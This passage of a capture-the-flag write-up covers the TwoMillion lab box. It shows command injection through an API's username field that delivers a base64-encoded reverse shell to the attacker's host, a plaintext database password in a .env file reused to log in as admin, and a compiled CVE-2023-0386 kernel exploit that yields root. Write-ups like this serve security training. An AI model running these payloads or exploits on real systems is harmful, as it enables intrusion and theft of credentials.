A commonly used web encoding that we have previously seen is **base64** encoding.

To do this, we can use the following command:

```bash
echo 'bash -i >& /dev/tcp/<HTB_IP>/4444 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xOC80NDQ0IDA+JjEK
```

Okay, now let's send our request.

```bash
curl -X POST -d '{"username": "0xMR007;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xOC80NDQ0IDA+JjEK | base64 -d | bash;"}' -H "Content-Type: application/json" http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=6rpp80g8sueusjtr6fgeqd5314"
```

On the listener side, we have indeed received a reverse shell connection!

```bash
pwncat -lp 4444
[18:37:52] Welcome to pwncat 🐈! __main__.py:164
[18:37:59] received connection from 10.129.159.192:42702 bind.py:84
[18:38:00] 10.129.159.192:42702: registered new host w/ db manager.py:957
(local) pwncat$ # CTRL + D to interact with the target machine
(remote) www-data@2million:/var/www/html$
```

## Post-Exploitation

We now have access to the target machine via reverse shell. Perfect.

## Q9 - .env File

**Reminder:** *Which file is commonly used in PHP applications to store environment variable values?*

Let's see what's in the current directory:

```bash
(remote) www-data@2million:/var/www/html$ ls -la
total 56
drwxr-xr-x 10 root root 4096 Aug 11 09:30 .
drwxr-xr-x 3 root root 4096 Aug 11 06:41 ..
-rw-r--r-- 1 root root 87 Jun 2 2023 .env
-rw-r--r-- 1 root root 1237 Jun 2 2023 Database.php
-rw-r--r-- 1 root root 2787 Jun 2 2023 Router.php
drwxr-xr-x 5 root root 4096 Aug 11 09:30 VPN
drwxr-xr-x 2 root root 4096 Jun 6 2023 assets
drwxr-xr-x 2 root root 4096 Jun 6 2023 controllers
drwxr-xr-x 5 root root 4096 Jun 6 2023 css
drwxr-xr-x 2 root root 4096 Jun 6 2023 fonts
drwxr-xr-x 2 root root 4096 Jun 6 2023 images
-rw-r--r-- 1 root root 2692 Jun 2 2023 index.php
drwxr-xr-x 3 root root 4096 Jun 6 2023 js
drwxr-xr-x 2 root root 4096 Jun 6 2023 views
```

A `.env` file seems to be available; this type of file is very sensitive as it can contain API connection information, credentials, etc.

**Answer:** `.env`

## Q10 - User Flag

**Reminder:** *Submit the flag located in the admin user's home directory.*

This is perfect for us! Let's take a look:

```bash
(remote) www-data@2million:/var/www/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Very interesting! Database connection information is stored here.

Let's check if the `admin` user is available on the system:

```bash
(remote) www-data@2million:/var/www/html$ ls -la /home/
total 12
drwxr-xr-x 3 root root 4096 Jun 6 2023 .
drwxr-xr-x 19 root root 4096 Jun 6 2023 ..
drwxr-xr-x 4 admin admin 4096 Jun 6 2023 admin
```

Perfect, apparently the `admin` user is available. If they use the same password as the database, we can log in as this user!

Given their name, they might have administrator privileges.

### Lateral Movement

```bash
(remote) www-data@2million:/var/www/html$ su admin
Password:
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
admin@2million:/var/www/html$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin)
admin@2million:/var/www/html$ cd
admin@2million:~$ ls -la
total 32
drwxr-xr-x 4 admin admin 4096 Jun 6 2023 .
drwxr-xr-x 3 root root 4096 Jun 6 2023 ..
lrwxrwxrwx 1 root root 9 May 26 2023 .bash_history -> /dev/null
-rw-r--r-- 1 admin admin 220 May 26 2023 .bash_logout
-rw-r--r-- 1 admin admin 3771 May 26 2023 .bashrc
drwx------ 2 admin admin 4096 Jun 6 2023 .cache
-rw-r--r-- 1 admin admin 807 May 26 2023 .profile
drwx------ 2 admin admin 4096 Jun 6 2023 .ssh
-rw-r----- 1 root admin 33 Aug 10 13:30 user.txt
admin@2million:~$ cat user.txt
5afc549d5971e9599c2e1c5f9189ede3
```

Perfect, we were able to log in as `admin` and retrieve the `user.txt` flag.

**Answer:** `5afc549d5971e9599c2e1c5f9189ede3`

## Q11 - Source Email

**Reminder:** *What is the sender's email address of the email sent to admin?*

I tried to check if the `admin` user had **sudo** privileges with the command: `sudo -l`, but unfortunately, they don't.

Well, let's try to see the files that belong to the `admin` user.

```bash
(remote) www-data@2million:/etc$ find / -type f -readable -user admin 2>/dev/null
/home/admin/.profile
/home/admin/.bash_logout
/home/admin/.bashrc
/var/mail/admin
```

The `/var/mail/admin` file seems interesting; let's see what it contains:

```bash
(remote) www-data@2million:/etc$ cat /var/mail/admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2
Hey admin,
I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.
HTB Godfather
```

Well, according to this email, it's a request to update the OS on the web server. The sender seems concerned as several kernel vulnerabilities (CVEs) have been published. They seem particularly worried about one of them (the one concerning OverlayFS / Fuse).

We have also obtained the answer to the question:

**Answer:** `ch4p@2million.htb`

## Q12 - CVE ID

**Reminder:** *What is the 2023 CVE ID of a vulnerability that allows an attacker to move files in the Overlay filesystem while retaining metadata such as owner bits and SetUID?*

### Privilege Escalation

According to the previous email, the system would be vulnerable to a kernel exploitation.

Let's check the Linux kernel version:

```bash
(remote) www-data@2million:/etc$ uname -r
5.15.70-051570-generic
```

To remember: Linux kernel version → `5.15.70`

By searching a bit on the Internet, we quickly come across `CVE-2023-0386`, a kernel vulnerability allowing to become root (privilege escalation).

First link found: https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/

I also found a GitHub exploit that seems reliable (403 stars):

https://github.com/xkaneiki/CVE-2023-0386

**Answer:** `CVE-2023-0386`

## Q13 - Root Flag

**Reminder:** *Submit the flag located in the root's home directory.*

Let's start by cloning the GitHub repo to get the files necessary for exploiting `CVE-2023-0386`:

```bash
git clone https://github.com/xkaneiki/CVE-2023-0386.git
Cloning into 'CVE-2023-0386-main'...
remote: Enumerating objects: 24, done.
remote: Counting objects: 100% (24/24), done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 24 (delta 7), reused 21 (delta 5), pack-reused 0 (from 0)
Receiving objects: 100% (24/24), 426.11 KiB | 3.44 MiB/s, done.
Resolving deltas: 100% (7/7), done.
```

Well, now that we have what we need, let's try to compile the exploit using the `make` command:

```bash
# Problem:
make all
gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
fuse.c:3:10: fatal error: fuse.h: No such file or directory
3 | #include <fuse.h>
| ^~~~~~~~
compilation terminated.
make: *** [Makefile:2: all] Error 1
# Solution:
sudo apt install libfuse-dev
```

A compilation error occurred on my machine; to resolve this problem, simply install the libfuse library as indicated above. Let's try again:

```bash
# Problem:
make all
gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
fuse.c: In function ‘main’:
fuse.c:214:12: error: implicit declaration of function ‘read’; did you mean ‘fread’? [-Wimplicit-function-declaration]
214 | while (read(fd, content + clen, 1) > 0)
| ^~~~
| fread
fuse.c:216:5: error: implicit declaration of function ‘close’; did you mean ‘pclose’? [-Wimplicit-function-declaration]
216 | close(fd);
| ^~~~~
| pclose
fuse.c:221:5: error: implicit declaration of function ‘rmdir’ [-Wimplicit-function-declaration]
221 | rmdir(mount_path);
| ^~~~~
make: *** [Makefile:2: all] Error 1
# Solution:
Add the following two includes to the fuse.c file
#include <unistd.h>
#include <sys/stat.h>
```

Second problem: system functions used in the exploit are not recognized, likely due to an omission of including system libraries. As indicated above, simply add the necessary **includes**. Let's try again (no more errors promised):

```bash
make all
gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/14/../../../x86_64-linux-gnu/libfuse.a(fuse.o): in function `fuse_new_common':
(.text+0xb1af): warning: Using 'dlopen' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
gcc -o exp exp.c -lcap
gcc -o gc getshell.c
```

Perfect! Our exploit has been compiled successfully. Let's put all this in a zip file to send it to the target machine:

```bash
zip -r exploit.zip CVE-2023-0386-main
adding: CVE-2023-0386-main/ (stored 0%)
adding: CVE-2023-0386-main/exp (deflated 77%)
adding: CVE-2023-0386-main/gc (deflated 86%)
adding: CVE-2023-0386-main/getshell.c (deflated 58%)
adding: CVE-2023-0386-main/fuse.c (deflated 68%)
adding: CVE-2023-0386-main/test/ (stored 0%)
adding: CVE-2023-0386-main/test/mnt (deflated 82%)
adding: CVE-2023-0386-main/test/mnt.c (deflated 62%)
adding: CVE-2023-0386-main/test/fuse_test.c (deflated 74%)
adding: CVE-2023-0386-main/Makefile (deflated 20%)
adding: CVE-2023-0386-main/exp.c (deflated 64%)
adding: CVE-2023-0386-main/fuse (deflated 59%)
adding: CVE-2023-0386-main/README.md (deflated 39%)
adding: CVE-2023-0386-main/ovlcap/ (stored 0%)
adding: CVE-2023-0386-main/ovlcap/.gitkeep (stored 0%)

# Make sure you are in the directory containing the files needed for the exploit
serve # personal alias, use the command: python3 -m http.server 80 instead
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Well, now that we have zipped our files and set up our HTTP server, let's transfer our zip file to the target machine using the `wget` command:

```bash
(remote) www-data@2million:/tmp$ wget http://<HTB_IP>/exploit.zip
--2025-08-10 21:49:20-- http://<HTB_IP>/exploit.zip
Connecting to <HTB_IP>:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 532520 (520K) [application/zip]
Saving to: 'exploit.zip'
exploit.zip 100%[================================================>] 520.04K 2.46MB/s in 0.2s
2025-08-10 21:49:20 (2.46 MB/s) - 'exploit.zip' saved [532520/532520]
```

On the target machine, we can then unzip our zip file:

```bash
(remote) www-data@2million:/tmp$ unzip exploit.zip
Archive: exploit.zip
creating: CVE-2023-0386-main/
inflating: CVE-2023-0386-main/exp
inflating: CVE-2023-0386-main/gc
inflating: CVE-2023-0386-main/getshell.c
inflating: CVE-2023-0386-main/fuse.c
creating: CVE-2023-0386-main/test/
inflating: CVE-2023-0386-main/test/mnt
inflating: CVE-2023-0386-main/test/mnt.c
inflating: CVE-2023-0386-main/test/fuse_test.c
inflating: CVE-2023-0386-main/Makefile
inflating: CVE-2023-0386-main/exp.c
inflating: CVE-2023-0386-main/fuse
inflating: CVE-2023-0386-main/README.md
creating: CVE-2023-0386-main/ovlcap/
extracting: CVE-2023-0386-main/ovlcap/.gitkeep
```

Then go to the directory containing the exploit.

First, we can execute the first part of the exploit in the background using `&`, i.e., `./fuse ./ovlcap/lower ./gc &`. Then, in a second step, execute the second part `./exp`:

```bash
(remote) www-data@2million:/tmp$ cd CVE-2023-0386-main/
(remote) www-data@2million:/tmp/CVE-2023-0386-main$ ls
Makefile README.md exp exp.c fuse fuse.c gc getshell.c ovlcap test
(remote) www-data@2million:/tmp/CVE-2023-0386-main$ ./fuse ./ovlcap/lower ./gc &
[1] 4941
(remote) www-data@2million:/tmp/CVE-2023-0386-main$ [+] len of gc: 0x3ef0
./exp
uid:33 gid:33
[+] mount success
[+] readdir
[+] getattr_callback
/file
total 8
drwxr-xr-x 1 root root 4096 Aug 10 21:51 .
drwxrwxr-x 6 root root 4096 Aug 10 21:51 ..
-rwsrwxrwx 1 nobody nogroup 16112 Jan 1 1970 file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
[+] open_callback
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601
[+] exploit success!
root@2million:/tmp/CVE-2023-0386-main# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

Perfect, the exploit worked; we have obtained a shell as `root`! We have successfully exploited `CVE-2023-0386`.

Let's retrieve the root flag to finally complete the TwoMillion box!

```bash
root@2million:~# cd /root
root@2million:/root# ls -la
total 48
drwx------ 8 root root 4096 Aug 10 13:30 .
drwxr-xr-x 19 root root 4096 Jun 6 2023 ..
lrwxrwxrwx 1 root root 9 Apr 27 2023 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Oct 15 2021 .bashrc
drwx------ 2 root root 4096 Jun 6 2023 .cache
drwxr-xr-x 3 root root 4096 Jun 6 2023 .cleanup
drwx------ 4 root root 4096 Jun 6 2023 .gnupg
drwxr-xr-x 3 root root 4096 Jun 6 2023 .local
lrwxrwxrwx 1 root root 9 May 26 2023 .mysql_history -> /dev/null
-rw-r--r-- 1 root root 161 Jul 9 2019 .profile
drwx------ 2 root root 4096 Jun 6 2023 .ssh
-rw-r----- 1 root root 33 Aug 10 13:30 root.txt
drwx------ 3 root root 4096 Jun 6 2023 snap
-rw-r--r-- 1 root root 3767 Jun 6 2023 thank_you.json
root@2million:/root# cat root.txt
bcb5e9d8cfa44d82195a61bd1feda45d
```

**Answer:** `bcb5e9d8cfa44d82195a61bd1feda45d`

Perfect! We have successfully pwned the TwoMillion box, congratulations 🥳!


## Conclusion

This box was about exploiting an Nginx web server. We first enumerated the web server (ports, JavaScript files, etc.). Then, we successfully exploited a REST API via a lack of user permission checks and, most importantly, via an endpoint vulnerable to command injection. After obtaining a reverse shell on the target machine, we discovered login credentials to a database that allowed us to log in as a user. Finally, we successfully exploited a kernel vulnerability corresponding to `CVE-2023-0386`, giving us root access.

Through this box, I learned several concepts:

- Enumerating a REST API
- Exploiting a REST API via command injection
- How a simple file created by a web server can be an attack vector
- The importance of not reusing passwords
- The danger of kernel and library vulnerabilities

This box allowed me to strengthen my web security (API) skills.

## Acknowledgements

If you've made it this far—thank you! Knowledge sharing is what makes the CTF community truly great. I hope this write-up has been useful or at least interesting to you.

And remember:

*Every vulnerability is a lesson in disguise—the more we break, the more we understand how to build.*

---

This should be ready to copy and paste into a Markdown file.